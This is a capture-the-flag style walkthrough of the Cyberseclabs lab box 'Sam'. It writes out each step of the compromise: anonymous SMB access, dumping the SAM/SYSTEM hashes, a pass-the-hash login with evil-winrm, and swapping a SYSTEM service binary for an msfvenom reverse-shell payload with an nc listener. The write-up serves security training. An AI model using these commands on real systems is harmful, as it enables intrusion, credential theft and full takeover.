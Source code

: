 In this walkthrough, we'll go over a beginner level box called ***Sam*** on [Cyberseclabs.co.uk](https://www.cyberseclabs.co.uk).

![Sam IP](samIP.png)

Let's start the scanning process with nmap:
```bash
nmap -A -T4 -p- 172.31.1.18
```
![Sam nmap](samnmap.png)

We can see that the SMB is open and it looks like anonymous login is also available. Let's see if we can list the shares `smbclient -L 172.31.1.18`:

![Sam SMB listing](samsmblist.png)

We can see a share called "backups" and we can try to login with `smbclient \\\\172.31.1.18\\backups -U anonymous`:

![Sam Backups](sambackups.png)

From this point on, we can look for ***SAM and SYSTEM*** files in ***Windows\System32\config***:

![Sam SAM/SYSTEM](samSAMSYSTEM.png)

We can copy these files as ***SYSTEM.hiv and SAM.hiv*** and crack the hashes by using `samdump2 SYSTEM.hiv SAM.hiv`:

![Sam hashes](samhashes.png)

Since we have the hashes, we can use evil-winrm to log into this machine `evil-winrm -i 172.31.1.18 -u jamie -H 68b1d3b0493ec0d6a1c0b8725062ab71`:

![Sam Evil-Winrm](samevil-winrm.png)

We can check the services first to see if there are any unusual services running:

![Sam Services](samservices.png)

As we can see there are two services monitor1 and monitor2. We can run sc on monitor1 `sc.exe qc monitor1`:

![Sam Monitor1](samqcmonitor.png)

It looks like we can start and stop this service on-demand so let's check the permissions on this `icacls.exe C:\Services\monitor1.exe`:

![Sam icacls](samicacls.png)

Since this service runs with "NT AUTHORITY\SYSTEM" privileges, we can create an executable and replace this exe with ours and start it.
Let's create an exe file with msfvenom `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.0.34 LPORT=6666 -f exe -o monitor1.exe` and upload it to the target machine.
We can start a nc listener with `nc -nlvp 6666`. Now, we can run `sc.exe start monitor1`:

![Sam Start monitor1](samstartmonitor1.png)

Now, we get a shell back as "NT AUTHORITY\SYSTEM":

![Sam Shell](samshellback.png)

I hope you enjoyed this walkthrough..

Thank you for reading...

[<= Go Back to Cyberseclabs Walkthrouhgs](CyberseclabsWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
